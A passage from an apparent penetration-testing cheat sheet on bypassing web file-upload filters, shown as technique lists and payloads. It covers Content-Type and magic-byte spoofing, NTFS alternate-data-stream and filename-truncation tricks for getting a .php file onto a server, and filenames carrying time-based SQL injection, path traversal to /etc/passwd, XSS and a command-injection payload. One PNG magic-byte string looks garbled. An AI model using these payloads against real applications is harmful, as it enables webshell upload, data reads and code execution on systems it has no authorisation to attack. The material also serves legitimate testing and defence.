   * `Content-Type : image/gif`
  * `Content-Type : image/png`
  * `Content-Type : image/jpeg`
  * Content-Type wordlist: [SecLists/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
  * Set the Content-Type twice: once for unallowed type and once for allowed.
* [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)
  * Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application.
    * PNG: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
    * JPG: `\xff\xd8\xff`
    * GIF: `GIF87a` OR `GIF8;`
  * Shell can also be added in the metadata
* Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server (e.g. "`file.asax:.jpg`"). This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. "`file.asp::$data.`")

* Try to break the filename limits. The valid extension gets cut off. And the malicious PHP gets left. AAA<--SNIP-->AAA.php
```bash
# Linux maximum 255 bytes
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
# Upload the file and check response how many characters it alllows. Let's say 236
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Make the payload
AAA<--SNIP 232 A-->AAA.php.png

```

## Filename vulnerabilities
Sometimes the vulnerability is not the upload but how the file is handled after. You might want to upload files with payloads in the filename.

* Time-Based SQLi Payloads:
```html
poc.js'(select*from(select(sleep(20)))a)+'.extension
```
* LFI/Path Traversal Payloads:
```html
image.png../../../../../../../etc/passwd
```
* XSS Payloads
```html
'"><img src=x onerror=alert(document.domain)>.extension
<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('XSS')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
```
* File Traversal
```html
../../../tmp/lol.png
```
* Command Injection
```html
; sleep 10;
```
